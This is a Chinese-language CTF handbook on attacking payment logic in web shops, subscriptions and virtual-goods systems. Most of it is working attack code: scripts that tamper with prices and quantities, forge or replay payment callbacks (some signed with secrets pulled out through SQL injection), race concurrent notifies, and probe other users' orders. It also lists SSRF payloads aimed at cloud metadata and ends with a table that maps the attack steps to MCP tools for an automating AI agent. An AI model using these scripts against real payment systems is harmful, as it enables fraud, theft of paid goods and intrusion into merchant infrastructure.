


# Payment Logic Attacks — 支付类 Web CTF 技术手册

> 适用：商品/套餐/充值/订阅/成品账号/AI 额度/积分兑换/虚拟权益类题目。目标不是”猜页面文案”，而是证明订单、金额、状态、回调、签名、幂等、权益发放的信任边界。
>
> **📂 关联技术文件**:
> - [payment-bypass.md](payment-bypass.md) — 支付绕过高阶技术 (参数篡改、Type Confusion、精度攻击、状态机、Mass Assignment、GraphQL、隐藏端点)
> - [payment-callback-async.md](payment-callback-async.md) — 回调与异步攻击深度手册 (签名绕过、回调伪造、Webhook SSRF、幂等重放、MQ攻击、时序竞态、CQRS、DNS Rebinding)
> - [payment-php.md](payment-php.md) — PHP 支付专项攻击 (Type Juggling、strcmp/md5数组绕过、Laravel Cashier、ThinkPHP、WooCommerce、反序列化Gadget、Session攻击)
> - [payment-subscription.md](payment-subscription.md) — 订阅/定期付款攻击 (试用滥用、按比例计费、续费操纵、计量绕过、Seat管理)
> - [payment-digital-goods.md](payment-digital-goods.md) — 虚拟商品/IAP 攻击 (iOS receipt 绕过、Google Play 验证、卡密系统、虚拟货币、License Key)

## 0. 开局资产模型

支付类题先建 6 张表（即使没有源码，也用黑盒请求还原）：

| 模型 | 关键字段 | 典型接口 |
|---|---|---|
| Product / Plan | `product_id`, `sku`, `plan_id`, `price`, `stock`, `duration`, `quota` | `/products`, `/plans`, `/api/plans` |
| Cart / Order | `order_id`, `out_trade_no`, `amount`, `quantity`, `currency`, `user_id`, `status` | `/order/create`, `/checkout`, `/api/orders` |
| Pay Intent | `pay_id`, `channel`, `qr_url`, `pay_url`, `return_url`, `notify_url`, `sign` | `/pay`, `/payment/create`, `/pay/prepay` |
| Notify / Callback | `trade_status`, `paid_at`, `transaction_id`, `signature`, `raw_body` | `/notify`, `/callback`, `/webhook`, `/pay/success` |
| Entitlement | `vip`, `subscription_until`, `credits`, `tokens`, `download_key`, `account_id` | `/me`, `/orders/:id/deliver`, `/api/user` |
| Refund / Cancel | `refund_id`, `refund_amount`, `reason`, `status` | `/refund`, `/order/cancel` |

### 0.1 SQL/支付交叉攻击面

支付题经常不是单点绕过，而是“请求字段 → 订单表 → 支付流水 → 权益表”的账本错位。每个接口都要问：它读的是哪张表，写的是哪张表，状态从哪里来。

| 支付字段 | 常见数据库字段 | 可打错位 |
|----------|----------------|----------|
| `order_id`, `out_trade_no` | `orders.id`, `orders.out_trade_no` | 自增 IDOR、回调绑定他人订单 |
| `amount`, `total_fee`, `pay_amount` | `orders.amount`, `payments.amount` | 创建价、支付价、发货价三者不一致 |
| `status`, `trade_status` | `orders.status`, `payments.status` | 回调只改流水，发货只看订单 |
| `transaction_id`, `notify_id` | `payments.transaction_id` | 重放、空幂等键、跨订单复用 |
| `coupon_id`, `balance` | `coupon_logs`, `wallet_logs` | 折扣重复、余额负数、退款后残留 |
| `sku`, `plan_id`, `goods_id` | `products`, `plans`, `entitlements` | 低价商品拿高价权益 |

账本 diff 模板：

```json
{
  "before": {"order_status": "pending", "amount": 100, "credits": 0},
  "request": {"path": "/notify", "order_id": "1001", "amount": "0.01", "status": "success"},
  "after": {"order_status": "paid", "payment_amount": 0.01, "credits": 1000},
  "mismatch": ["order.amount != payment.amount", "credits increased before provider verified"]
}
```

### 0.2 SQLi/NoSQLi 驱动的支付账本复原

如果前面已经从 `../03-injection/sqli-nosqli.md` 抽到表名、列名或部分订单字段，不要把它当成单独成果。支付题要把 DB 证据落回六张表：订单、流水、权益、余额、优惠、配置。

| 抽到的内容 | 立即转化成什么动作 | 命中信号 |
|---|---|---|
| `orders.id/out_trade_no` | 双账号 IDOR、回调绑定、发货接口 | 非所有者订单可读/可发货 |
| `orders.amount/payments.paid_amount` | 改金额、低价 intent、金额核对差异 | paid 金额与订单金额不一致 |
| `payments.transaction_id/notify_id` | 幂等重放、跨订单复用、空白/大小写变体 | 同一订单多次权益 |
| `settings.pay_secret/webhook_secret` | 生成签名回调、测试签名覆盖字段 | notify 从 fail 变 success |
| `entitlements.download_key/license_key` | 直接领数字商品、枚举邻近资源 | 下载链接/卡密/flag |
| `coupon_logs/wallet_logs` | 优惠叠加、余额负数、退款残留 | 余额或折扣非预期增加 |

```python
# sql_to_payment_router.py — 把 SQLi 结果转成支付下一跳
import json
import re

ROUTES = [
    (re.compile(r"out_trade_no|order_id|orders?\.", re.I), "order_idor_or_callback_bind"),
    (re.compile(r"transaction_id|notify_id|payments?\.", re.I), "notify_replay_or_idempotency"),
    (re.compile(r"pay_secret|webhook_secret|sign_key|app_key", re.I), "signed_callback_forge"),
    (re.compile(r"license|download|cdkey|entitlement", re.I), "digital_goods_delivery"),
    (re.compile(r"coupon|wallet|balance|refund", re.I), "coupon_wallet_refund_chain"),
]

def route_sqli_finding(finding):
    text = json.dumps(finding, ensure_ascii=False)
    hits = [name for rx, name in ROUTES if rx.search(text)]
    return hits or ["schema_more_columns"]

sample = {
    "table": "payments",
    "columns": ["order_id", "transaction_id", "paid_amount", "status"],
    "row": {"order_id": "1001", "transaction_id": "TX20260704001"}
}
print(route_sqli_finding(sample))
```

### 0.3 账本字段的“谁说了算”

支付链的核心问题是哪个字段被信任。SQLi/备份泄露/API 回显能帮你直接定位“谁说了算”：

| 业务问题 | 看哪张表/字段 | 常见错位 |
|---|---|---|
| 发货看什么状态 | `orders.status` / `payments.status` / `delivery.status` | 回调只改流水，发货只读订单 |
| 金额以谁为准 | `orders.amount` / `payments.paid_amount` / `gateway_amount` | 支付 0.01，订单仍按 100 发货 |
| 幂等靠哪个键 | `transaction_id` / `notify_id` / `order_id` | 新 notify_id 旧 transaction_id 重放 |
| 权益何时生成 | `entitlements.created_at` / `delivery_logs` | pending 时已生成卡密 |
| 退款是否回收权益 | `refund_logs.status` / `entitlements.revoked_at` | refund success 后 VIP 仍有效 |

```python
# ledger_authority_diff.py — 判断状态由哪本账驱动
def classify_authority(before, after):
    changes = []
    for book in ["order", "payment", "delivery", "entitlement", "wallet"]:
        if before.get(book) != after.get(book):
            changes.append(book)
    if "payment" in changes and "order" not in changes:
        return "payment_only_changed"
    if "order" in changes and "entitlement" in changes:
        return "order_drives_delivery"
    if "wallet" in changes and "payment" not in changes:
        return "wallet_side_effect_without_payment"
    return "+".join(changes) or "no_state_change"
```

### 首轮黑盒记录模板

```md
## Payment Surface

- Login required:
- Products/plans:
- Order create request:
- Order state fields:
- Payment channel:
- Callback/notify endpoints:
- Client-controlled fields:
- Server-calculated fields:
- Entitlement effect:
- Rate limit / idempotency:
```

## 1. 路由与参数发现

### 1.1 支付路由字典

优先 fuzz 这些词，保留 `200/3xx/401/403/405/500`：

```text
pay
payment
payments
checkout
order
orders
trade
transaction
transactions
invoice
invoices
cart
goods
product
products
plan
plans
subscribe
subscription
vip
member
membership
credit
credits
balance
wallet
recharge
topup
coupon
discount
promo
promo-code
redeem
notify
callback
webhook
return
success
paid
deliver
fulfill
refund
cancel
```

PowerShell/ffuf：

```powershell
$base='https://target/'
$out='.\exports\ctf-website\<case>\recon\ffuf_payment.json'
@'
pay
payment
payments
checkout
order
orders
trade
transaction
transactions
invoice
invoices
cart
goods
product
products
plan
plans
subscribe
subscription
vip
member
membership
credit
credits
balance
wallet
recharge
topup
coupon
discount
promo
redeem
notify
callback
webhook
return
success
paid
deliver
fulfill
refund
cancel
'@ | Set-Content .\exports\ctf-website\<case>\recon\payment_words.txt
ffuf -u "$base/FUZZ" -w .\exports\ctf-website\<case>\recon\payment_words.txt -mc all -fc 404 -of json -o $out
```

### 1.2 前端静态提取

抓 JS 中的支付关键词：

```powershell
rg -n "pay|payment|order|checkout|trade|notify|callback|webhook|sign|amount|price|sku|plan|vip|credit|coupon|refund|deliver" `
  .\exports\ctf-website\<case> -S
```

## 2. 金额与商品参数篡改

### 2.1 客户端金额不可信

对 order/create 的所有字段做一维变异：

| 字段 | 变异 | 观察 |
|---|---|---|
| `amount`, `price`, `total`, `money` | `0`, `0.01`, `-1`, `1e-9`, `NaN`, `Infinity`, `999999999999`, `"1"` | 订单金额/支付金额/权益是否变化 |
| `quantity`, `count`, `num` | `0`, `-1`, `2`, `999999`, `1.5` | 总价是否错算、库存是否负数 |
| `product_id`, `sku`, `plan_id` | 低价 SKU + 高价权益字段 | 商品/权益错配 |
| `currency`, `unit` | `CNY`, `USD`, `cent`, `yuan` | 分/元单位分歧 |
| `discount`, `coupon`, `coupon_id` | 空/重复/他人/负值 | 折扣叠加 |

Python 最小探针：

```python
import copy, json, time, requests

BASE = "https://target"
S = requests.Session()
S.headers.update({"User-Agent": "ReverseLab-PaymentProbe/1.0"})

def post_json(path, obj):
    r = S.post(BASE + path, json=obj, timeout=15)
    print(path, r.status_code, len(r.content), r.text[:300])
    return r

baseline = {"product_id": 1, "quantity": 1}
mutations = {
    "amount": [0, 0.01, -1, "0.01", "1e-9", 999999999999],
    "price": [0, -1, 1],
    "quantity": [0, -1, 2, 999999, 1.5],
    "plan_id": [1, 2, 999],
    "coupon_id": ["", 0, 1, -1, "FREE", "admin"],
}

for k, vals in mutations.items():
    for v in vals:
        data = copy.deepcopy(baseline)
        data[k] = v
        r = post_json("/api/order/create", data)
        time.sleep(0.2)
```

**漏洞确认标准**：服务端生成订单的 `amount/pay_amount/plan/entitlement` 与真实商品价格不一致，且支付或发货状态可继续推进。

## 3. 支付状态机绕过

### 3.1 常见错误状态流

期望状态流：



可打状态流：

- `GET /pay/success?order_id=...` 直接把订单改成 paid。
- `POST /order/update` 接受 `status=paid`。
- `return_url` 客户端跳转被当作支付成功依据。
- `notify` 不校验签名/金额/订单归属。
- `delivered` 接口只检查订单存在，不检查 paid。

### 3.2 状态字段探针

```python
import requests

BASE = "https://target"
S = requests.Session()

def try_status(order_id):
    paths = [
        f"/pay/success?order_id={order_id}",
        f"/payment/success?order_id={order_id}",
        f"/order/{order_id}/success",
        f"/order/{order_id}/paid",
        f"/api/order/{order_id}/pay",
        f"/api/order/{order_id}/deliver",
    ]
    bodies = [
        {"order_id": order_id, "status": "paid"},
        {"order_id": order_id, "paid": True},
        {"order_id": order_id, "trade_status": "TRADE_SUCCESS"},
        {"order_id": order_id, "payment_status": "success"},
    ]
    for p in paths:
        for method in ("GET", "POST"):
            r = S.request(method, BASE + p, json=bodies[0] if method == "POST" else None, timeout=15, allow_redirects=False)
            print(method, p, r.status_code, r.headers.get("Location"), r.text[:160])
    for b in bodies:
        for p in ["/api/order/update", "/api/payment/notify", "/notify", "/callback"]:
            r = S.post(BASE + p, json=b, timeout=15, allow_redirects=False)
            print("POST", p, b, r.status_code, r.text[:160])
```

## 4. 回调/通知签名绕过

### 4.1 回调字段拆解

支付回调如果只看 `order_id` 和 `status`，通常就能从这些字段拆开打：

- Provider 签名：`sign`, `signature`, `X-Signature`, `Wechatpay-Signature`, `Stripe-Signature`
- `out_trade_no/order_id` 与本地订单绑定
- `total_amount/amount` 与本地订单金额一致
- `seller_id/app_id/mch_id` 与配置一致
- `trade_status` 只允许成功终态
- 回调幂等：同一 `transaction_id` 只能处理一次

### 4.2 签名绕过字典

```text
sign=
sign=invalid
sign=0
sign=null
sign[]=x
signature=
signature=undefined
X-Signature: 
X-Signature: invalid
Content-Type: application/x-www-form-urlencoded
Content-Type: application/json
```

### 4.3 回调伪造探针

```python
import requests, itertools, time

BASE = "https://target"
S = requests.Session()

notify_paths = ["/notify", "/callback", "/payment/notify", "/api/payment/notify", "/webhook/pay"]
payloads = [
    {"out_trade_no": "ORDER_ID", "order_id": "ORDER_ID", "trade_status": "TRADE_SUCCESS", "total_amount": "0.01", "sign": ""},
    {"out_trade_no": "ORDER_ID", "status": "success", "amount": "0.01", "signature": "invalid"},
    {"order_id": "ORDER_ID", "paid": True, "transaction_id": "replay-001"},
]
headers = [
    {"Content-Type": "application/json"},
    {"Content-Type": "application/x-www-form-urlencoded"},
    {"X-Signature": ""},
    {"X-Signature": "invalid"},
]

for path, body, hdr in itertools.product(notify_paths, payloads, headers):
    r = S.post(BASE + path, json=body if "json" in hdr.get("Content-Type", "") else None,
               data=body if "form" in hdr.get("Content-Type", "") else None,
               headers=hdr, timeout=15, allow_redirects=False)
    print(path, hdr, r.status_code, len(r.content), r.text[:200])
    time.sleep(0.1)
```

**确认标准**：伪造回调后订单从 pending 变 paid，或权益/余额/订阅增加。

## 5. 幂等与并发

支付类最常见 flag 路径：重复处理同一事件。

| 场景 | 漏洞 | 结果 |
|---|---|---|
| 重复 notify | 缺 transaction/order 幂等锁 | 重复发放权益 |
| 支付成功 + 取消/退款竞态 | 状态机无事务 | paid 仍退款或退款后仍发货 |
| 修改订单金额 + 支付 | create/pay 分离 | 低价支付高价商品 |
| 并发优惠券 | 缺唯一约束 | 折扣重复叠加 |
| 并发领取账号/卡密 | 库存扣减非原子 | 一份库存多人拿 |

并发骨架：

```python
import concurrent.futures, requests, time

BASE = "https://target"
S = requests.Session()

def hit(i):
    r = S.post(BASE + "/api/payment/notify",
               json={"order_id": "ORDER_ID", "status": "success", "transaction_id": "same-tx"},
               timeout=20)
    return i, r.status_code, len(r.content), r.text[:120]

with concurrent.futures.ThreadPoolExecutor(max_workers=30) as ex:
    futs = [ex.submit(hit, i) for i in range(60)]
    for f in concurrent.futures.as_completed(futs):
        print(f.result())
```

验证时必须比较：

1. 并发前订单/余额/权益。
2. 并发响应状态。
3. 并发后订单/余额/权益。
4. 是否生成 flag/卡密/订阅。

## 6. 订单 IDOR / 越权支付

### 6.1 攻击面

- 查看他人订单：`GET /orders/{id}`
- 支付他人订单：`POST /orders/{id}/pay`
- 取消/退款他人订单：`POST /orders/{id}/refund`
- 领取他人权益：`GET /orders/{id}/deliver`
- 用自己支付回调绑定他人 `order_id`

### 6.2 双账号矩阵

支付题最好准备两个普通账号：

| 操作 | A 订单 | B session | 预期 |
|---|---|---|---|
| B GET A order | A `order_id` | B cookie | 403/404 |
| B pay A order | A `order_id` | B cookie | 403/404 |
| B deliver A order | A `order_id` | B cookie | 403/404 |
| notify A order with B amount | A order + fake tx | no/any cookie | reject |

IDOR 探针：

```python
import requests

BASE = "https://target"
A = requests.Session()
B = requests.Session()

order_id = "A_ORDER_ID"
for path in [
    f"/api/orders/{order_id}",
    f"/api/orders/{order_id}/pay",
    f"/api/orders/{order_id}/deliver",
    f"/api/orders/{order_id}/refund",
]:
    for sname, sess in [("A", A), ("B", B)]:
        for method in ("GET", "POST"):
            r = sess.request(method, BASE + path, timeout=15, allow_redirects=False)
            print(sname, method, path, r.status_code, len(r.content), r.text[:120])
```

## 7. 优惠券 / 余额 / 积分组合

组合优先级：

1. `coupon_id` 与 `product_id` 不绑定。
2. 优惠金额可超过订单金额。
3. 优惠券重复使用/并发使用。
4. 余额支付时 `amount=0` 仍发货。
5. 退款返还余额但不撤销权益。

Payload：

```json
{"coupon_id": "FREE"}
{"coupon_id": -1}
{"coupon_id": [1,1,1]}
{"discount": 999999}
{"balance": -100}
{"use_balance": true, "pay_amount": 0}
```

## 8. 回调 URL / SSRF / Open Redirect

支付系统常有 `return_url`, `notify_url`, `redirect_url`, `success_url`：

| 参数 | 风险 |
|---|---|
| `return_url` | open redirect / OAuth token leak |
| `notify_url` | server-side SSRF / internal callback |
| `callback` | JSONP / XSS |
| `webhook` | 内网探测 / metadata SSRF |

最小测试：

```text
return_url=https://example.com
return_url=//example.com
notify_url=http://127.0.0.1:80/
notify_url=http://169.254.169.254/latest/meta-data/
notify_url=http://[::1]/
```

如果服务端会访问 `notify_url`，用可控回连服务记录 DNS/HTTP；CTF 本地可用自建 requestbin/临时 VPS。

## 9. 支付 SDK / CVE 联动

识别信号：

- 前端 JS：`stripe`, `paypal`, `wechatpay`, `alipay`, `payjs`, `yungouos`, `epay`, `xorpay`, `afdian`, `paymongo`
- 后端 header/cookie：`Laravel`, `Django`, `Next.js`, `Nuxt`, `Express`, `Spring`
- API 文档：`/swagger`, `/openapi.json`, `/api-docs`
- 支付库版本：`package-lock.json`, sourcemap, chunk 文件名

流程：

```powershell
# 1. 写 fingerprints.json
@'
[
  {"product":"<framework-or-sdk>", "version":"<version>", "source":"<url/header/js>"}
]
'@ | Set-Content .\cases\<case>\fingerprints.json

# 2. 跑 CVE pipeline
python .\scripts\ctf-website\fingerprint_cve_pipeline.py `
  --fingerprints .\cases\<case>\fingerprints.json `
  --out .\reports\ctf-website\<case>\fingerprint-cve
```

## 10. SQLi → 支付链执行模板

当 SQLi 已经抽到订单号、支付密钥、流水号或权益字段时，按下面顺序推进。每一步只看服务端状态差异，前端“支付成功”文案不算命中。

### 10.1 三条主链

| 链路 | 前置证据 | 动作 | 命中标志 |
|---|---|---|---|
| 订单绑定链 | `orders.id/out_trade_no/user_id` | B session 读/发货 A order；notify 带 A order | 非所有者权益变化 |
| 签名回调链 | `pay_secret/webhook_secret/app_key` | 生成 provider 风格签名，改 `amount/status/order_id` | pending → paid/delivered |
| 幂等重放链 | `transaction_id/notify_id/provider` | 同交易号变体、跨 provider、并发重放 | 多次发货/余额增加 |

```python
# sqli_payment_chain_runner.py — 已有 SQLi 产物后的支付链执行骨架
import copy
import hashlib
import hmac
import json
import requests

BASE = "https://target"
S = requests.Session()

def hmac_sha256_sign(params, secret):
    raw = "&".join(f"{k}={params[k]}" for k in sorted(params) if k != "sign")
    return hmac.new(secret.encode(), raw.encode(), hashlib.sha256).hexdigest()

def snapshot(order_id):
    paths = {
        "order": f"/api/orders/{order_id}",
        "payment": f"/api/payment/{order_id}",
        "delivery": f"/api/orders/{order_id}/deliver",
        "me": "/api/me",
    }
    out = {}
    for name, path in paths.items():
        method = "POST" if name == "delivery" else "GET"
        r = S.request(method, BASE + path, timeout=10, allow_redirects=False)
        out[name] = {"status": r.status_code, "len": len(r.text), "body": r.text[:500]}
    return out

def forged_notify(order_id, secret, amount="0.01"):
    body = {
        "out_trade_no": order_id,
        "trade_status": "TRADE_SUCCESS",
        "total_amount": amount,
        "transaction_id": "SQLI_TX_REPLAY_001",
    }
    body["sign"] = hmac_sha256_sign(body, secret)
    return S.post(BASE + "/notify", data=body, timeout=10, allow_redirects=False)

def run(order_id, secret):
    before = snapshot(order_id)
    resp = forged_notify(order_id, secret)
    after = snapshot(order_id)
    print(json.dumps({
        "before": before,
        "notify": {"status": resp.status_code, "body": resp.text[:500]},
        "after": after,
    }, ensure_ascii=False, indent=2))
```

### 10.2 SQLi 抽字段后的行动矩阵

| SQLi 结果 | 不要停在 | 继续做 |
|---|---|---|
| 表名 `orders` | 截图表名 | 抽当前用户和相邻用户 `order_id/status/amount`，做双账号差分 |
| 列名 `pay_secret` | 只记录密钥名 | 抽密钥值，跑签名覆盖字段矩阵 |
| `transaction_id` | 只证明可读流水 | 改大小写、尾空格、provider，测重放和跨订单 |
| `download_key` | 只读 key | 访问下载接口、换 order_id、测退信/邮件链接 |
| `coupon_code` | 只列优惠券 | 并发兑换、跨商品使用、负金额组合 |

### 10.3 成功/失败样本

成功样本：

- SQLi 抽到 `pay_secret` 后，伪造回调让同一订单从 `pending` 变 `paid`，随后 `entitlements` 新增记录。
- 抽到 A 的 `order_id` 后，用 B session 调 `/deliver` 返回卡密或下载链接。
- 抽到 `transaction_id` 后，同交易号加尾空白被当成新流水，余额/权益增加两次。

失败样本：

- 密钥抽出但签名串包含隐藏字段，所有回调仍返回 `invalid sign`。
- 订单号可读但所有发货接口重新校验当前用户。
- 流水号可重放但唯一约束按规范化后的交易号生效。

### 10.4 SQLi 到支付动作编排器

SQLi 抽到的表字段要立刻变成动作队列：读订单、伪造/重放回调、触发发货、读权益、再用 SQLi 复读内部状态。这样能区分“页面显示成功”和“账本真的写穿”。

| 内部字段 | 动作队列 | 复读字段 | 命中判定 |
|---|---|---|---|
| `orders.id`, `orders.user_id` | 双账号读订单、B 发货 A 订单 | `orders.status`, `delivery_logs.order_id` | 非所有者权益或卡密出现 |
| `payments.sign_key`, `settings.pay_secret` | 生成签名回调、改金额/状态 | `payments.status`, `orders.status` | pending 变 paid/delivered |
| `payments.transaction_id` | 原值、尾空白、大小写、provider 变体重放 | `payment_logs.count`, `entitlements.count` | 同一交易多次入账 |
| `coupon_logs.code`, `wallet_logs.balance` | 并发兑换、退款后再领权益 | `wallet.balance`, `coupon_logs.used_at` | 余额/折扣/权益错位 |
| `notify_logs.raw_body` | 从 raw body 复原签名串和隐藏字段 | `notify_logs.status`, `error_msg` | invalid sign 变 success |

```python
# sqli_payment_action_orchestrator.py
import json
import requests

class SQLPaymentChain:
    def __init__(self, base, oracle, cookie=None):
        self.base = base.rstrip("/")
        self.oracle = oracle
        self.s = requests.Session()
        if cookie:
            self.s.headers["Cookie"] = cookie

    def db_order(self, order_id):
        fields = ["status", "amount", "user_id", "paid_at", "delivered_at"]
        return {
            f: self.oracle(f"(SELECT COALESCE(CAST({f} AS CHAR),'') FROM orders WHERE id={order_id} LIMIT 1)")
            for f in fields
        }

    def api_snapshot(self, order_id):
        probes = {
            "order": f"/api/orders/{order_id}",
            "wallet": "/api/wallet",
            "me": "/api/me",
            "delivery": f"/api/orders/{order_id}/deliver",
        }
        out = {}
        for name, path in probes.items():
            method = "POST" if name == "delivery" else "GET"
            r = self.s.request(method, self.base + path, timeout=10, allow_redirects=False)
            out[name] = {"status": r.status_code, "len": len(r.text), "body": r.text[:500]}
        return out

    def run_action(self, order_id, action):
        before = {"db": self.db_order(order_id), "api": self.api_snapshot(order_id)}
        resp = action(self.s, self.base, order_id)
        after = {"db": self.db_order(order_id), "api": self.api_snapshot(order_id)}
        print(json.dumps({
            "before": before,
            "action": {"status": resp.status_code, "body": resp.text[:500]},
            "after": after,
        }, ensure_ascii=False, indent=2))
```

输出建议写到 `exports/payment_sqli_action_timeline.json`：每个 action 保存 `before.db`、`before.api`、请求、响应、`after.db`、`after.api`。如果 API 显示成功但 SQLi 复读没有状态差，说明只是前端/中间态；如果 SQLi 复读变了但 API 不显示，优先找异步发货、退信、WebSocket/SSE broadcast。

## 11. 证据与复现交付标准

一个支付漏洞只有满足以下任一项才算确认：

- 低价/零价订单获得高价权益。
- 未支付订单变为 paid/delivered。
- 伪造回调通过并发/签名绕过触发发货。
- 他人订单/权益被越权查看或领取。
- 余额/积分/优惠券出现非预期增加。
- RCE/SSRF/CVE 链获得服务器侧可验证输出。
- 页面/接口返回有效 flag。

复现包必须包含：

1. `config`：base URL、cookie/token、order_id/product_id。
2. `payload`：请求体、签名字段、并发参数。
3. `send/receive`：完整 HTTP 发送与响应摘要。
4. `verify`：漏洞前后状态 diff。
5. `flag extraction`：自动 regex `flag{}`, `CTF{}`, `DASCTF{}`。

### 11.1 账本差异采集器

```python
import json
import requests

class LedgerDiff:
    def __init__(self, base, cookie=None):
        self.base = base.rstrip("/")
        self.s = requests.Session()
        if cookie:
            self.s.headers["Cookie"] = cookie

    def snapshot(self, order_id):
        probes = {
            "order": f"/api/orders/{order_id}",
            "me": "/api/me",
            "wallet": "/api/wallet",
        }
        out = {}
        for name, path in probes.items():
            r = self.s.get(self.base + path, timeout=8, allow_redirects=False)
            out[name] = {"status": r.status_code, "len": len(r.text), "body": r.text[:800]}
        return out

    def notify(self, path, payload):
        r = self.s.post(self.base + path, json=payload, timeout=8, allow_redirects=False)
        return {"status": r.status_code, "len": len(r.text), "body": r.text[:500]}

    def run(self, order_id, payload):
        before = self.snapshot(order_id)
        resp = self.notify("/api/payment/notify", payload)
        after = self.snapshot(order_id)
        print(json.dumps({"before": before, "notify": resp, "after": after}, ensure_ascii=False, indent=2))
```

### 11.2 Payment Evidence Manifest

每个支付 case 最终都应落成一份机器可读 manifest，后续 Agent 才能接着跑，而不是靠聊天记录回忆。

```json
{
  "case": "payment-sqli-race",
  "assets": {
    "base_url": "https://target",
    "account_a": "cookie/session label",
    "account_b": "cookie/session label"
  },
  "orders": [
    {"id": "1001", "owner": "A", "amount": "100.00", "status_before": "pending"}
  ],
  "db_evidence": [
    {"source": "sqli", "table": "payments", "columns": ["order_id", "transaction_id", "status"]}
  ],
  "actions": [
    {"name": "forged_notify", "request_file": "exports/notify_001.http", "response_file": "exports/notify_001.txt"}
  ],
  "ledger_diff": {
    "order": "pending -> paid",
    "payment": "none -> TRADE_SUCCESS",
    "entitlement": "0 -> 1"
  },
  "next": ["race replay", "delivery IDOR", "websocket broadcast"]
}
```

## 攻击链



## MCP 工具映射

AI Agent 可调用以下 MCP 工具自动完成或加速上述攻击步骤：

| 攻击步骤 | MCP 工具 | 说明 |
|---------|---------|------|
| 支付逻辑 API 探测 | `http_probe` | HTTP GET 探测支付逻辑接口端点 |
| 知识检索 | `kb_router` | 按支付逻辑漏洞信号搜索知识库 |
